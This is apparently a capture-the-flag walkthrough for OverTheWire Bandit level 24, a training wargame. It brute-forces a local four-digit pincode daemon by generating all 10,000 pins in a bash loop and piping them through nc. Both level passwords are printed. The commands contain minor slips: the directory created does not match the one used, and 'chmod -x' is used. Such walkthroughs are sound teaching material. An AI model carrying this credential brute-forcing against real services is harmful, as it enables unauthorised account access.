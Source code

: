 <h1>Bandit 24 &#x2192; Bandit 25 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>A daemon is listening on port 30002 and will give you the password for
bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000
combinations, called brute-forcing.</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111
Wrong! Please enter the correct pincode. Try again.
^C
```

Let's make a script that automatically tries all combinations.

```
bandit24@bandit:~$ mkdir /tmp/scripts/
bandit24@bandit:~$ vim /tmp/myscripts/runme.sh
  1 #!/bin/bash
  2 for i in {0000..9999}; do
  3     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> /tmp/myscripts/combinations.txt
  4 done
bandit24@bandit:~$ chmod -x /tmp/myscripts/runme.sh
bandit24@bandit:~$ touch /tmp/myscripts/combinations.txt
bandit24@bandit:~$ ls /tmp/myscripts/
combinations.txt  runme.sh
bandit24@bandit:~$ bash /tmp/myscripts/runme.sh
bandit24@bandit:~$ cat /tmp/myscripts/combinations.txt | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

[bandit level 24](24.md)
[bandit level 26](26.md)
